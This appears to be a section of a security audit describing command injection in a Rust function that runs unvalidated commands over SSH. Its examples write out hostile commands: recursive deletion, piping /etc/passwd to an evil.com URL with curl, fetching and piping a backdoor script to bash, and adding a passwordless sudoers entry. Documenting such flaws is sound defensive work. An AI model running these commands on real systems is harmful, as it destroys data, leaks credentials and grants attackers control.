 ### Attack Vectors

**Example 1: File Deletion**
```rust
execute_remote_command(
    "workstation.home.arpa",
    22,
    "vince",
    None,
    "echo test; rm -rf /important/data"
)
// Executes: ssh vince@workstation.home.arpa "echo test; rm -rf /important/data"
```

**Example 2: Data Exfiltration**
```rust
execute_remote_command(
    "workstation.home.arpa",
    22,
    "vince",
    None,
    "cat /etc/passwd | curl -X POST https://evil.com/steal -d @-"
)
// Steals password file
```

**Example 3: Backdoor Installation**
```rust
execute_remote_command(
    "workstation.home.arpa",
    22,
    "vince",
    None,
    "curl https://evil.com/backdoor.sh | bash"
)
// Downloads and executes malicious script
```

**Example 4: Privilege Escalation**
```rust
execute_remote_command(
    "workstation.home.arpa",
    22,
    "vince",
    None,
    "echo 'vince ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers"
)
// Grants sudo access without password
```

### Why This Is Critical

1. **No Input Validation** - Command parameter is not validated
2. **No Sanitization** - Special characters (`;`, `&&`, `|`, etc.) not escaped
3. **Shell Execution** - SSH executes commands in a shell on remote host
4. **High Privileges** - Runs as the SSH user (often has sudo access)
5. **Remote Execution** - Can compromise multiple machines
